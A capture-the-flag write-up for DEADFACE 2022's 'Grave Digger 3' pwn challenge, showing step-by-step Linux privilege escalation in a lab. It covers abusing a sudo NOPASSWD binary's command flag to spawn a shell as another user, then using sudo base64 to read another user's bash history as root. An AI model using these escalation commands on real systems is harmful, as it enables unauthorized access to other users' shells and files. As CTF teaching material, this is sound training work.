 ```yaml
---
# Obsidian
tags:
- ctf
- 2022-deadface
- pwn
- linux

# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2022-deadface
category: pwn
title: Grave Digger 3
points: 300
solved: true
---
```


# Grave Digger 3

## Instructions

There is one more flag that DEADFACE has hidden on `d34th`'s machine. Somehow, you'll have to find a way to access `d34th`'s files in his home directory. Submit the flag as `flag{flag text}`

env.deadface.io Password: `123456789q`

_Use context from **[Grave Digger 1](Grave%20Digger%201)** and **[Grave Digger 2](Grave%20Digger%202)**_

## Solution

Exfiltrating the binary and reverse engineering it (or just reading the man page) shows existence of a flag that can be used to run an arbitrary command. 

```
-c, --command COMMAND
        Execute a command (for troubleshooting purposes ONLY).
```

In this man page we also find the email address for lilith which is used for [Contact](Contact)

```
AUTHOR
       Lilith (bl0ody_mary@deadface.io)
```

Additionally, `crypto_vamp` can run `/opt/reader` as lilith with `NOPASSWD`

```
crypto_vamp@da4c4c0c34da:~$ sudo -l
Matching Defaults entries for crypto_vamp on da4c4c0c34da:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User crypto_vamp may run the following commands on da4c4c0c34da:
    (lilith) NOPASSWD: /opt/reader
```

We can leverage this to escalate to a shell as lilith.
```
crypto_vamp@da4c4c0c34da:~$ sudo -u lilith /opt/reader -c /bin/bash
lilith@da4c4c0c34da:~$ id
1: uid=4817(lilith) gid=4817(lilith) groups=4817(lilith),4818(deadface)
```

Lilith has several utilities that can be used to read arbitrary files as the root user:
```
lilith@da4c4c0c34da:~$ sudo -l
2: Matching Defaults entries for lilith on da4c4c0c34da:
3:     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb4: in\:/bin\:/snap/bin
5: 
6: User lilith may run the following commands on da4c4c0c34da:
7:     (ALL) NOPASSWD: /usr/bin/base64
8:     (ALL) NOPASSWD: /usr/bin/gzip
9:     (ALL) NOPASSWD: /user/bin/gunzip
```

We can use this to read spookyboi's bash history.

```
lilith@da4c4c0c34da:~$ sudo base64 /home/spookyboi/.bash_history | base64 -d
10: ls -l
11: cd ~
12: mkdir docs
13: rm -rf docs
14: wget https://pastebin.com/raw/XX2nkn3W > gravedigger3.txt
15: rm gravedigger3.txt
16: openssl genrsa -aes128 -out spookyboi-priv.pem 1024
17: openssl rsa -in spookyboi-priv.pem  -pubout > spookyboi-public.pem
18: rm spookyboi-public.pem
19: mv *.pem .keys/
```

Following the pastebin link gives us the flag.

```
flag{b4d_h1sTOrY}
```


